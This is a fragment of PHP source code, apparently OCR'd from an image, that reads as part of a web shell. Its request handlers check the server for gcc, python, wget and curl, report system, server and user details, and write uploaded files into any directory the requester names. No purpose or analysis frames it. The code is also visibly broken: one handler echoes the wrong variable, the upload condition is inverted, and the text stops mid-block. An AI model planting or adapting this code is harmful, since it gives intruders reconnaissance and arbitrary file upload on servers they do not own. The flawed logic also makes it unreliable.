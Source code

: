 ```php
    if (isset($_REQUEST["testgcc"])) {
        echo "<pre>";
        $test = testgcc();
        echo "$test";
        echo "</pre>";
        die();
    }

    if (isset($_REQUEST["testpython"])) {
        echo "<pre>";
        $testpython = testpython();
        echo "$test";
        echo "</pre>";
        die();
    }

    if (isset($_REQUEST["testwget"])) {
        echo "<pre>";
        $test = testwget();
        echo "$test";
        echo "</pre>";
        die();
    }

    if (isset($_REQUEST["testcurl"])) {
        echo "<pre>";
        $test = testcurl();
        echo "$test";
        echo "</pre>";
        die();
    }

    if (isset($_REQUEST["testGetMicrotime"])) {
        executeAndDisplay("getmicrotime");
    }

    if (isset($_REQUEST["testGetSystem"])) {
        executeAndDisplay("getsystem");
    }

    if (isset($_REQUEST["testGetServer"])) {
        executeAndDisplay("getserver");
    }

    if (isset($_REQUEST["testGetUser"])) {
        executeAndDisplay("getuser");
    }

    if (isset($_REQUEST["upload"])) {
        error_reporting(1);
        if (!isset($_REQUEST["dir"])) {
            die("Specify a directory!?!");
        }
    } else {
        $dir = $_REQUEST["dir"];
        $fname = $HTTP_POST_FILES["file_name"]["name"];
        if (
            !move_uploaded_file(
                $HTTP_POST_FILES["file_name"]["tmp_name"],
                $dir . $fname
            )
        ) {
            die("File uploading error.");
```